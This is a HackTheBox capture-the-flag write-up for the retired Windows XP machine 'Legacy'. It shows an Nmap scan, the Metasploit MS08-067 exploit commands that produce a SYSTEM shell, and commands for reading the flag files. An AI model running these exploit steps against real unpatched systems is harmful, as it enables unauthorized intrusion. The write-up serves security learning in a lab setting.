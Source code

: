 [HackTheBox] Legacy
===============
date: 01/Nov/2019
summary: This is the summary for an awesome post.
tags: oscp, hackthebox, writeups

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_legacy/infocard.png)

This is a writeup for HTB VM [Legacy](https://www.hackthebox.eu/home/machines/profile/2). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_legacy/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Fri Nov  1 14:44:27 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.legacy/results/10.10.10.4/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.legacy/results/10.10.10.4/scans/xml/_quick_tcp_nmap.xml 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up, received user-set (0.057s latency).
Scanned at 2019-11-01 14:44:28 PDT for 276s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE       REASON          VERSION
139/tcp  open   netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  syn-ack ttl 127 Windows XP microsoft-ds
3389/tcp closed ms-wbt-server reset ttl 127
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h59m53s, deviation: 1h24m50s, median: -4h59m53s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:0c:03 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 0c 03 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 13850/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 54226/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-01T20:44:53+02:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 14:49:04 2019 -- 1 IP address (1 host up) scanned in 276.38 seconds
```

2\. From the Nmap scan results, we find that the target system has SMB service running and is a Windows XP system:  
```
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-01T20:44:53+02:00
```

### Findings
#### Open Ports:
```
137/udp  |  netbios-ns    |  Microsoft Windows netbios-ns (workgroup: HTB)
139/tcp  |  netbios-ssn   |  Microsoft Windows netbios-ssn
445/tcp  |  microsoft-ds  |  Windows XP microsoft-ds
```

## Phase #2: Exploitation
1\. For a Microsoft Windows XP system with open SMB, we use the MSF [MS08-067](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067) exploit `windows/smb/ms08_067_netapi` and gain a shell with elevated privileges on the target system:  
```
msfconsole
  use exploit/windows/smb/ms08_067_netapi
  set RHOST 10.10.10.4
  set LHOST 10.10.14.18
  show options
  exploit
```

![writeup.exploitation.steps.1.1](/static/files/posts_htb_legacy/screenshot01.png)  

2\. We then obtain further information about the system and read the contents of both `user.txt` and `root.txt` files to comeplete the challenge:  
```
ipconfig
systeminfo
dir user.txt /s /p
type "C:\Documents and Settings\john\Desktop\user.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_legacy/screenshot02.png)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_legacy/screenshot03.png)  

![writeup.exploitation.steps.2.3](/static/files/posts_htb_legacy/screenshot04.png)  

## Phase #2.5: Post Exploitation
```
ntauth/system@LEGACY> id
NT AUTHORITY\SYSTEM
ntauth/system@LEGACY>  
ntauth/system@LEGACY> uname
Host Name:                 LEGACY
OS Name:                   Microsoft Windows XP Professional
OS Version:                5.1.2600 Service Pack 3 Build 2600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Uniprocessor Free
ntauth/system@LEGACY>  
ntauth/system@LEGACY> ifconfig
Ethernet adapter Local Area Connection:
  Connection-specific DNS Suffix  . :
  IP Address. . . . . . . . . . . . : 10.10.10.4
  Subnet Mask . . . . . . . . . . . : 255.255.255.0
  Default Gateway . . . . . . . . . : 10.10.10.2
ntauth/system@LEGACY>  
ntauth/system@LEGACY> users
Administrator
john
```

## Loot
### Flags
```
C:\Documents and Settings\john\Desktop\user.txt: e69af0e4f443de7e................
C:\Documents and Settings\Administrator\Desktop\root.txt: 993442d258b0e0..................
```

## References
* <https://www.hackthebox.eu/home/machines/profile/2>  
* <https://medium.com/@_C_3PJoe/htb-retired-box-walkthrough-legacy-147bbcc9ff02>  
